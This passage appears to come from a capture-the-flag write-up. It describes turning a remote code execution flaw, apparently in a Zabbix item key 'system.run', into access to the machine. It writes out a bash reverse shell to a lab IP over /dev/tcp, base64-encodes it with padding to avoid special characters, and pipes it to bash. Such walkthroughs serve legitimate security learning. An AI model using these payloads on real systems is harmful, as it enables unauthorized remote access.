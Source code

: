 <figure><img src="../../.gitbook/assets/image (23) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Then click the test button and the get value, it will output the `id` command so we got a RCE

So we can try a reverse shell that we double encode to bypass any errors or special character problems:

```
echo "bash -i >& /dev/tcp/10.10.14.94/9898 0>&1 " | base64
```

Let's try only base64 for now:

<figure><img src="../../.gitbook/assets/image (24) (1) (1) (1).png" alt=""><figcaption><p>YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45NC85ODk4IDA+JjEgCg</p></figcaption></figure>

It did not work, the fact that we have some + in the command bothers me so if we add some double spaces in between each one of the spaces:

```
echo "bash  -i  >&  /dev/tcp/10.10.14.166/9898  0>&1  " | base64
```

so in the key parameter:

```
system.run[echo YmFzaCAgLWkgID4mICAvZGV2L3RjcC8xMC4xMC4xNC4xNjYvOTg5OCAgMD4mMSAgCg | base64 | bash]
```

the final version of the payload was with port 443 so:
